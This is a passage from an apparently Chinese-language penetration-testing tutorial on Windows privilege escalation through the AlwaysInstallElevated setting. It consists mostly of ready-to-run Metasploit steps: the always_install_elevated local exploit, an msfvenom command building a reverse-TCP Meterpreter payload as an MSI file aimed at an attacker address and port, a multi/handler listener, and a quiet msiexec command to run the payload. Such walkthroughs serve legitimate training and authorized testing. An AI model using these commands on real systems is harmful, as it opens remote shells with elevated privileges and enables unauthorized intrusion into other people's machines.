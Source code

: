 ```
使用提权模块
use exploit/windows/local/always_install_elevated
根据返回的会话设置session的id
set session id号码
run
但是最后具体能不能run成功这个比较玄学，如果run成功会生成一个新的会话，就可以sessions -i 会话id
```

![image-20241015190559132](操作系统提权/image-20241015190559132.png)	

```
如果失败了我们可以使用MSF生成 msi文件然后上传上去运行即可
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=6666 -f msi -o payload.msi 
```

```
建立一个新的监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 6666
```

```
将生成的msi恶意安装脚本，上传上去。
```

![image-20241015191204260](操作系统提权/image-20241015191204260.png)	

```
运行上传的msi文件就可以了
execute -f "msiexec.exe /quiet /qn /i payload.msi"
```

![image-20241015191544312](操作系统提权/image-20241015191544312.png)	

